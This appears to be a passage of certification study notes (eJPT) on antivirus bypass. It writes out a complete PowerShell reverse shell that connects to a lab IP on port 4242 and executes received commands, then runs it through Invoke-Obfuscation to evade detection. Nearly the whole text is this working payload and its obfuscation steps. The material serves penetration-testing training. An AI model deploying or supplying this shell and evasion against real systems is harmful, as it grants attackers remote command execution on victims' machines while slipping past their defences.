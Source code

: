 ```bash
cd /home/kali/certs/ejpt/AVBypass/    
nano shell.ps1
```

```bash
$client = New-Object System.Net.Sockets.TCPClient('192.168.31.128',4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

- Back in `Invoke-Obfuscation`

```bash
SET SCRIPTPATH /home/kali/certs/ejpt/AVBypass/shell.ps1
AST
ALL
1
```

![](.gitbook/assets/image-20230424173718594.png)
